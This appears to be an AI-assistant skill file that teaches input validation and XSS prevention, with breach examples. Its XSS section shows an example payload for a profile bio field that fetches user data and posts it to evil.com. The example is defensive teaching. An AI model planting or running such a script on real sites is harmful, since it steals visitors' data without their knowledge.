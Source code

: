 ```yaml
---
name: Input Validation & XSS Prevention
description: Validate and sanitize user input to prevent XSS, injection attacks, and ensure data quality. Use this skill when you need to validate forms, sanitize user input, prevent cross-site scripting, use Zod schemas, or handle any user-generated content. Triggers include "input validation", "validate input", "XSS", "cross-site scripting", "sanitize", "Zod", "injection prevention", "validateRequest", "safeTextSchema", "user input security".
---
```


# Input Validation & XSS Prevention

## The Universal Truth of Web Security

**Never trust user input.** This is the foundational principle of web security.

Every major breach can be traced back to input validation failures:
- **SQL Injection** - Equifax (147 million records)
- **XSS** - British Airways (380,000 transactions, £20M fine)
- **Command Injection** - Countless others

According to OWASP, injection vulnerabilities are consistently the **#1 or #2 threat** to web applications. Input validation is not optional—it's existential.

## Understanding XSS (Cross-Site Scripting)

### The Attack

Attacker enters in a bio field:
```javascript
<script>
fetch('/api/user')
  .then(r=>r.json())
  .then(d=>fetch('https://evil.com',{
    method:'POST',
    body:JSON.stringify(d)
  }))
</script>
```

Without sanitization, when other users view this profile:
1. The script executes in their browsers
2. It steals their user data
3. Sends it to attacker's server
4. Victims never know they were compromised

### Real-World XSS Consequences

**British Airways (2018):**
XSS vulnerability allowed attackers to inject payment card harvesting script. 380,000 transactions compromised. **£20 million fine** under GDPR.
